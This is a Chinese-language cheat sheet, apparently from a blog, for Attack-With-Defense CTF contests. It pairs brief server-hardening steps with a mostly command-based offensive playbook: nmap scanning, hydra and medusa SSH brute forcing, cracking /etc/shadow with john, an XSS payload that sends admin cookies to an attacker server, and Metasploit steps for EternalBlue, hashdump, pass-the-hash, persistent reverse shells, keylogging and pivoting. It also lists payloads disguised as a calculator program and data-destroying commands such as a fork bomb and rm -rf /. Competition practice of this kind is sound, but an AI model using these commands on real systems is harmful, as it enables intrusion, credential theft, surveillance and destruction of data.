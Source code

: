 ```yaml
---
layout: post
title: "AWD备忘"
date: 2018-08-31 17:28:06 +0800
description: ""
category: ctf/awd
tags: []
---
```


## 登录靶机

使用putty或命令通过ssh登录，并修改密码

```sh
ssh user@target_ip
passwd
ifconfig #查ip
```

查找网站根目录，并打包备份

```sh
find /var -name index.html 2>/dev/null
cd /var/www
tar -cvf /tmp/a.tar drupal-6.8
scp user@target_ip:/tmp/a.tar /tmp -r -P #将target_ip的/tmp/a.tar下载到本地/tmp，或通过Filezilla
```

## 防御加固

#### 查找数据库登录权限，后台登陆权限，修改初始密码

使用MySQL Workbench或命令登录数据库

```sh
mysql -h localhost -P 3306 -u root -p
use mysql;
update user set password=PASSWORD('sdafa') where user='root';
flush privileges;

show databases;
select * from user;
use ctf4;
show tables;
show columns from table;

/var/lib/mysql/mysqldump -u root -p Test > Test0809.sql #备份数据库
/var/lib/mysql/mysql -u root -p Test < Test0809.sql #还原数据库
```

#### Web网站目录设置只读权限

```sh
chmod -R 644 /var/www #-R递归到子目录
```

#### 部署waf

将waf.php传到要包含的文件的目录，在所需要防护的页面加入代码，注意：waf脚本不能影响正常功能

```php
require_once('waf.php');
```

#### 部署文件监控脚本

#### 审查漏洞并进行加固

工具：D_safe或者Seay

常见：Webshell后门、SQL注入、文件包含、文件上传、RCE等

## 渗透入侵

#### 发现目标，nmap

```sh
nmap -sn -n 192.168.1.1/24 #主机发现
nmap -F -n 192.168.1.1/24 #快速扫描
nmap -A -Pn -T4 192.168.1.108 #全面扫描
nmap -A -vv -p 0-65535 -T4 192.168.1.108 #超详细扫描
nmap --script vuln 192.168.1.108 #扫漏洞
```

#### 密码在线暴力破解

medusa和hydra，大写字符接输入文件，小写字符接数值

```sh
medusa -M ssh -U /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/passwords.txt  -h 192.168.1.12 -t 50
medusa -M ssh -U user.txt -P pass.txt -t 50 -H target.txt

hydra -L user.txt -P pass.txt -M target.txt ssh
hydra -L user.txt -P pass.txt ssh:\\192.168.1.12
hydra  -L users.txt -P password.txt -t 1 -vV -e ns 192.168.1.104 ssh
hydra  -l root -p XDVgz9T6 -M target.txt mysql
# -v / -V / -d  verbose mode / show login+pass for each attempt / debug mode
```

#### 破解散列值，john

```sh
john -w=1.txt /etc/shadow #尝试字典文件，常用字典文件有：/usr/share/john/password.lst和/usr/share/wordlists/rockyou.txt（需解压）
john /etc/shadow #不带字典文件情况下，先尝试“简单破解”(single crack)模式，然后使用带规则的单词表，最后是尝试“增强破解”(incremental)模式。
john --show /etc/shadow #列出所有被破解的密码
cat /root/.john/john.pot #等效于上一个命令，直接看文件
```

#### XSS漏洞利用

``` sh
python -m SimpleHTTPServer 12345 #运行python http服务器
<script>new image().src="http://192.168.1.127:12345/a.php?cookie=" + encodeURI(document.cookie);</script> #XSS攻击将管理员（Robot）的cookie上传
```

#### 系统漏洞攻击，metasploit （msf）

六大模块：

- 前期探测：Auxiliary
- 攻击模块：Exploit（核心组件模块，包含针对各类操作系统漏洞的攻击代码 ）、Payload（成功利用漏洞后使目标系统运行的某些操作的代码，通常为二进制的shellcode，最常用的payload是使目标系统反弹shell）
- 后渗透模块：Post
- 辅助器：Encoders、Nops

```sh
msfupdate;msfdb init;msfdb start #升级数据库，启动数据库

msfconsole #启动msf
search type:exploit platform:linux mysql
search smb #搜索exp
use exploit/windows/smb/ms17_010_eternalblue #选择最近，级别高（excellent/great/good）的exp
show payloads #查看适配当前exp的payload
set payload windows/x64/meterpreter/reverse_tcp #设置payload，常用meterpreter/reverse_tcp
show options (advanced) #查看需要配置的参数
set RHOST 192.168.1.1 #设置必要参数，如目标主机和端口
run #运行攻击

sessions -l #列出后台所有session
session -i 5 #重新启用session

use priv
hashdump #输出系统hash表
  Administrator:500:a9a1d510b01177d1aad3b435b51404ee:afc44ee7351d61d00698796da06b1ebf:::
background  #返回，等效于ctrl + Z，放入后台
use exploit/windows/smb/psexec
set smbuser Administrator
set smbpass a9a1d510b01177d1aad3b435b51404ee:afc44ee7351d61d00698796da06b1ebf
exploit

#反弹持续控制，重启后自动反连
run persistence -X -i 50 -p 8888 -r 192.168.43.47 #靶机
use exploit/multi/handler #攻击机
set exitonsession false #持续
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.43.47
set lport 8888
等价于：handler -p windows/meterpreter/reverse_tcp -H 192.168.43.47 -P 8888

migrate 553 #监控键盘，需要先迁移到explore进程
keyscan_start
keyscan_dump
keyscan_stop

#内网映射
run get_local_subnets
route add 192.168.77.0/24 1(session)
run arp_scanner -r 192.168.77.0/24
use auxiliary/scanner/portscan/tcp
use auxiliary/scanner/ftp/ftp_version

#向内网传输文件
nc -lp 8888 > bb #将监听到的信息重定向到bb
nc host 8888 < a.elf 或 connect -i a.elf host 8888
proxychain nc host 8888 < a.elf

#以计算器.exe为模板生成自动连接payload
msfvenom -p linux/x86/meterpreter/bind_tcp lhost=0.0.0.0 lport 7878 -f elf -o a.elf -k -x calculate.exe
use payload/windows/meterpreter/reverse_tcp
set lhost 192.168.43.47
generate -t exe -f a.exe
```

meterpreter常用命令

```sh
#文件相关
download/upload/cat/mv/pwd/ls
#系统相关
clearev/shell/ps/kill/sysinfo
#权限相关
getsystem/hashdump/timestomp
```

## 系统流量监控，需要root权限

```sh
tcpdump -i eth0 -w /tmp/xxx.pcap
ps -ef | grep apache
vi {APACHE_HOME}/conf/httpd.conf
vi {APACHE_HOME}/logs/access_log
vi /var/log/httpd/access.log
```

## 危险命令（慎用）

```sh
:(){ :|:& };: #fork炸弹，定义一个名为:的函数，并在前台和后台递归调用自己
rm -rf / 
whoami　> /dev/sda
mkfs.ext3 /dev/sda
dd if=/dev/random of=/dev/sda
mv /var/www/html >  /dev/null
```





